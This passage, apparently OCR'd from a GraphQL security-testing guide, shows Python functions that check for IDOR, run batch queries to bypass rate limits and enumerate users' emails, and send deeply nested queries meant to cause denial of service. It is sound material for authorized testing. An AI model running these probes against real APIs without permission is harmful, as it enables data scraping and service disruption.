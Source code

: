                         if result_b.get("data"):
                            findings.append({
                                "type": "GraphQL IDOR",
                                "query": query["name"],
                                "object_id": obj_id,
                                "unauthorized_user": user_b["name"]
                            })
    
    return findings
Step 3: Batch Query Testing (Rate Limit Bypass)
pythondef test_graphql_batching(endpoint, auth_token):
    """
    GraphQL allows batch queries which can bypass rate limits
    """
    batch_query = """
    {
      user1: user(id: 1) { email }
      user2: user(id: 2) { email }
      user3: user(id: 3) { email }
      # ... can include 100+ queries
    }
    """
    
    response = requests.post(
        endpoint,
        json={"query": batch_query},
        headers={"Authorization": f"Bearer {auth_token}"}
    )
    
    if response.status_code == 200:
        # Check if we got data for all users
        data = response.json().get("data", {})
        
        if len(data) > 1:
            return {
                "vulnerability": "Rate Limit Bypass via Batch Queries",
                "description": "GraphQL batching allowed multiple queries",
                "impact": "Can enumerate all users rapidly"
            }
Step 4: Deep Nested Query Testing
pythondef test_deep_nesting(endpoint, auth_token):
    """
    GraphQL allows deeply nested queries that can:
    1. Cause DoS
    2. Expose unauthorized data via nested resolvers
    """
    deep_query = """
    {
      user(id: 1) {
        posts {
          author {
            posts {
              author {
                posts {
                  # Can go very deep
                }
              }
            }
          }
        }
      }